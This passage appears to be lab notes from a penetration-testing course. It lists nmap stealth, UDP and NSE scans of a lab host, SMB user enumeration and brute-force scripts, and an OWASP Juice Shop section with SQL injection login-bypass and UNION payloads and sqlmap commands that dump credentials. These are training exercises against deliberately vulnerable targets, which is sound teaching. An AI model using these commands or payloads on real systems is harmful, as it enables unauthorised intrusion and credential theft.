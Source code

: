 - Command: `sudo nmap -v -sS -p 80,443 10.30.0.235`
- Purpose: Avoid completing TCP three-way handshake for stealth

**Step 11: Protocol-Specific Scanning**

- TCP Connect scan: `nmap -sT 10.30.0.235 -T4 -v`
- UDP scan only: `sudo nmap -sU 10.30.0.235 -T4 --top-ports 5`
- Combined TCP/UDP: `sudo nmap -sS -sU 10.30.0.235 -T4 -v`

**Step 12: Nmap Scripting Engine (NSE)**

- List available scripts: `ls /usr/share/nmap/scripts`
- HTTP enumeration: `sudo nmap -p 80,8180 --script http-enum.nse 10.30.0.235`
- Vulnerability scan: `sudo nmap --script vuln 10.30.0.235`
- Default scripts: `nmap -sC 10.30.0.235`

**Activity 7: SMB Enumeration Scripts**

1. **Programming Language:** Lua
2. **SMB OS Discovery:** `nmap --script smb-os-discovery 10.30.0.235`
   - Purpose: Identifies OS version through SMB protocol
3. **SMB User Enumeration:** `nmap --script smb-enum-users 10.30.0.235`
   - Purpose: Lists user accounts on target system
4. **SMB Share Enumeration:** `nmap --script smb-enum-shares 10.30.0.235`
   - Purpose: Discovers shared folders and permissions
5. **SMB Brute Force:** `nmap --script smb-brute 10.30.0.235`
   - Purpose: Attempts to brute force SMB credentials

### Post-Reconnaissance Analysis

- Document all discovered services and versions
- Identify potential vulnerabilities based on service versions
- Plan subsequent exploitation phases based on findings
- Prioritize targets based on criticality and exploitability

---

# OWASP Juice Shop SQL Injection Attack - Mohammad

## Program

OWASP Juice Shop vulnerable web application; Burp Suite for request interception; Browser for manual testing; SQLMap for automated exploitation.

## Command

- Target discovery: Identify Juice Shop instance
  Command: `nmap -p 3000 192.168.1.0/24`
- Login bypass attempt: Basic SQL injection
  Payload: `admin@juice-sh.op'--`
- Union-based injection: Extract database information
  Payload: `' UNION SELECT sql FROM sqlite_master--`
- Automated scanning: Use SQLMap for comprehensive testing
  Command: `sqlmap -u "http://192.168.1.100:3000/rest/user/login" --data="email=test&password=test" --level=5 --risk=3`
- Database enumeration: Extract user credentials
  Command: `sqlmap -u "http://192.168.1.100:3000/rest/user/login" --data="email=test&password=test" --dump`
